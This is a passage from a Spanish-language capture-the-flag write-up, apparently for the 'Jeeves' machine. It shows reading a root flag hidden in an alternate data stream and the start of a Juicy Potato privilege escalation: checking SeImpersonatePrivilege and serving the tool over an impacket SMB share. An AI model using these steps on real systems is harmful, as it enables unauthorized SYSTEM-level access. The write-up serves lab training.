          Total Files Listed:
                   2 File(s)            833 bytes
                   2 Dir(s)   7,321,821,184 bytes free
    ```
    
- Mediante el comando more printeamos el archivo oculto dentro de hm.txt.
    
    ```bash
    more < hm.txt:root.txt
    ```
    
- Tenemos la flag del ROOT:
    
    ![Untitled](https://github.com/Hexix23/WriteUps/blob/main/.gitbook/assets/Jeeves/Untitled%2029.png)
    

### Forma 2 —> Potato Attack { OSCP STYLE }

- Vamos a comenzar listando los permisos que tiene el usuario.
    
    ```bash
    whoami /priv
    ```
    
- Podemos ver que tenemos `Enable` el **Privilege Name** `SeImpersonatePrivilege`.
    
    ```bash
    PRIVILEGES INFORMATION
    ----------------------
    
    Privilege Name                Description                               State   
    ============================= ========================================= ========
    SeShutdownPrivilege           Shut down the system                      Disabled
    SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
    SeUndockPrivilege             Remove computer from docking station      Disabled
    SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
    SeCreateGlobalPrivilege       Create global objects                     Enabled 
    SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
    SeTimeZonePrivilege           Change the time zone                      Disabled
    ```
    
- Lo que nos quiere decir esto es que vamos a poder utilizar ejecutables al nivel de privilegios de SYSTEM.
    
    [Windows Privilege Escalation: Abusing SeImpersonatePrivilege with Juicy Potato](https://infinitelogins.com/2020/12/09/windows-privilege-escalation-abusing-seimpersonateprivilege-juicy-potato/)
    
- Vamos a crear un recurso a nivel de red para pasarnos de nuestra maquina local al windows la herramienta JuicyPotato { el ejecutable por el cual vamos a ejecutar comandos como si fuésemos un usuario privilegiado }.
    
    https://github.com/ohpe/juicy-potato
    
    ```bash
    $impacket-smbserver carpetaCompartida $(pwd)
    ```
    